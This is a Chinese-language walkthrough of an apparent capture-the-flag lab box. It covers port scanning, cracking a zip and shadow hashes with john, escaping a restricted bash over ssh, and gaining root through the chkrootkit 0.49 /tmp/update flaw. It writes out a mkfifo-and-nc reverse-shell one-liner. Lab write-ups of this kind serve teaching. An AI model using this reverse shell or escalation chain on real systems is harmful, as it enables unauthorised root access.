[TOC]

# 信息收集

```
arp-scan -l
```

得到ip192.168.174.177

```
nmap -p- --min-rate 10000 192.168.174.177 | awk -F ' ' '{print$1}' | awk -F '/' '{print$1}' | tr '\n' ','
```

得到两个端口22，80

- 分别进行TCP详细扫描，漏洞扫描和UDP扫描

## TCP详细扫描



- 80端口有一个save.zip文件

## 漏洞扫描



可能存在sql注入

## UDP扫描



没有有效信息

# 80端口分析

```
gobuster dir -u "http://192.168.174.177" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,zip
```

```
dirb http://192.168.174.177 /usr/share/wordlists/dirb/big.txt
```

都只枚举了一个文件save.zip，也是nmap扫描出的结果

- 转移到/exam目录进行解压

```
unzip save.zip
```


发现需要密码，使用john破解

- （有时复现的时候john不会破解已经破解过的hash，需要删除~/.john/john.pot）

```
zip2john save.zip > hash.txt
```

得到save.zip的hash值

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



得到密码manuel



解压后发现有shadow文件

```
john --wordlist=/usr/share/wordlists/rockyou.txt
```



得到了账号296640a3b825115a47b68fc44501c828的密码server



通过ssh连接进去发现这是一个rbash

```
echo $PATH
```

查看当前用户的环境变量





想要查看我们当前能用的命令运行

```
compgen -c
```

我们在当前账户的家目录下发现honeypot.decoy程序

- honeypot.decoy是蜜罐诱饵的通用命名写法

因为honeypot.decoy在当前用户的环境变量中，所以可以直接运行

```
honeypot.decoy
```

运行程序发现

尝试选项7写笔记

发现我们进入了一个vim编辑器，尝试可不可以vim逃逸

发现还是不能用包括‘/‘的命令

通过搜索发现vim编辑器中内部使用:e [文件名]可以读取文件

- :e:在**不关闭当前 vim**的情况下，加载另一个文件到当前缓冲区。

也可以尝试

```
scp 296640a3b825115a47b68fc44501c828@192.168.174.177:/home/296640a3b825115a47b68fc44501c828/ ./
```

但利用失败

```
:e user.txt
```

- 查看我们当前目录下的文件

看上去像一个flag，没什么用

# rbash逃逸

目前我们的任务是尝试rbash逃逸，但是限制有命令中不能出现/，可用的命令有export，mkdir等，不足以逃逸，不过在网上搜索发现ssh可以绕过

```
ssh 296640a3b825115a47b68fc44501c828@192.168.174.177 -t "bash --noprofile --norc"
```

介绍下参数

- `-t`：强制分配伪终端（ssh后面带命令时，默认是非交互式，不分配终端）

- `--noprofile`：禁止 bash 读取登录类 profile 配置文件

- `--norc`：**不加载～/.bashrc**（非登录 shell 的用户配置）

- `bash --noprofile --norc` = **干净纯净 bash，完全不加载任何用户和系统 shell 配置**




成功登录，而且可以随意使用命令

```
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:$PATH
```

先改一下环境变量

不小心把环境变量覆盖了，不能直接启动程序

```
./honeypot.decoy
```

不过稍后再重点考虑这个，先搜索其他信息

在~/SV-502/logs目录中发现一个log.txt文件



# 提权

在最后几行命令中发现解压了chkrootkit-0.49

- **chkrootkit = Check Rootkit**，是 Linux/Unix 下**开源本地 Rootkit 检测工具**（Kali 自带），用来扫描服务器有没有被植入 Rootkit（内核后门），由 shell 脚本 + 一些 C 小程序组成，能检测 70 + 种已知 rootkit 特征chkrootkit

- Rootkit：攻击者拿到 root 权限后安装的后门，可以**隐藏进程、隐藏文件、篡改 ls/ps/netstat 这些系统命令**，普通命令看不到木马，长期维持最高权限。

也就说这是一个病毒扫描工具，在之前的honeypot.decoy中有一项



开始病毒扫描，猜测和这个有关系

先运行一下看看进程

```
ps aux | grep chk
```



发现启动5选项时进程出现了chkrootkit-0.49，并且是以root的身份运行的，我们可以用反弹shell得到root的bash



意思是在/tmp目录下创建一个update可执行文件（非root身份），结果是/tmp/update文件会随着chkrootkit的运行而将以root身份运行，所以我们可以在update文件中加入一下提权内容比如反弹shell

（最开始使用通用的bash -i没有成功，改用了mkfifo + nc成功了，因为我们有/tmp的写入权限，操作系统内部可能也更符合场景）

```
touch update > /tmp/
chmod +x update
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.174.177 5555 >/tmp/f' > update
```

再次运行honeypot.decoy程序，启动病毒扫描



成功拿到root

## 后续解惑

在root账号的目录下有一个script.sh文件，查看一下



```
crontab -l
```



查看一下定时任务发现script脚本每分钟启动一次，也就是启动chkrootkit
